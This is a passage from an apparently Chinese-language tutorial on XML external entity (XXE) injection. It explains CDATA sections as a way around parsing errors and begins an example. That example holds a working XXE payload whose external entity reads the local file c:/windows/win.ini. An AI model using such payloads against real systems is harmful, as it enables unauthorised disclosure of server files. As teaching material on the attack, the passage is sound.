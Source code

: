   

再次执行之前成功的payload就会得到很多报错：

  


![](../post_pre/pics/xxe/error.png)
  

<hr>

  

解决这个问题的一个有效方法就是使用`<![CDATA[]]>`

  

>在 XML 中，<![CDATA[]]> 的作用是保护一些特殊字符，例如小于号 < 等，使其不被解析。这是因为在 XML 文档的解析过程中，字符 < 和 & 会被解析为新元素或字符实体的开始。因此，如果希望一些字符被视为纯文本而不是 XML 语法，可以将它们放在 <![CDATA[]]> 中。

  

乍一看心情是：what are you fucking talking about？

  

举个例子

  

用初始xml进行改造：

  

```xml

<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE creds [

   <!ENTITY goodies SYSTEM "file:///c:/windows/win.ini">

]>

<creds>&goodies;</creds>

```

  

<hr>

  
